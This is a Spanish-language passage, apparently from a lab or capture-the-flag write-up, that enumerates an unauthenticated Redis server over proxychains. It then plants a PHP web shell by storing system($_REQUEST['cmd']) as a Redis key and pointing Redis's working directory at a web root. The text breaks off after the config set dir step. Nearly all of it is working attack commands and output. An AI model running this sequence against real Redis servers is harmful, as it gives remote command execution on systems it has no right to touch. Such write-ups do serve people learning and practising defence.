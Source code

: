 Listo los clientes

```null
72.19.0.2:6379> client list
id=5 addr=172.19.0.4:60710 fd=8 name= age=184 idle=0 flags=N db=0 sub=0 psub=0 multi=-1 qbuf=0 qbuf-free=32768 obl=0 oll=0 omem=0 events=r cmd=client
(0.67s)
```

Hay una base de datos

```null
172.19.0.2:6379> info keyspace
# Keyspace
db0:keys=1,expires=0,avg_ttl=0
```

Me conecto a ella para extraer información

```null
172.19.0.2:6379> select 0
OK
172.19.0.2:6379> keys *
1) "hits"
```

Corresponde a lo que veía en la web

```null
172.19.0.2:6379> get hits
"6"
```

Creo un archivo ```cmd.php```. Es importante que haya tres saltos de línea al principio y al final

```null



<?php
  system($_REQUEST['cmd']);
?>



```

Lo sincronizo con el redis

```null
cat cmd.php | proxychains redis-cli -h 172.19.0.2 -x set cmd
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
OK
```

```null
proxychains redis-cli -h 172.19.0.2 config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
OK
```
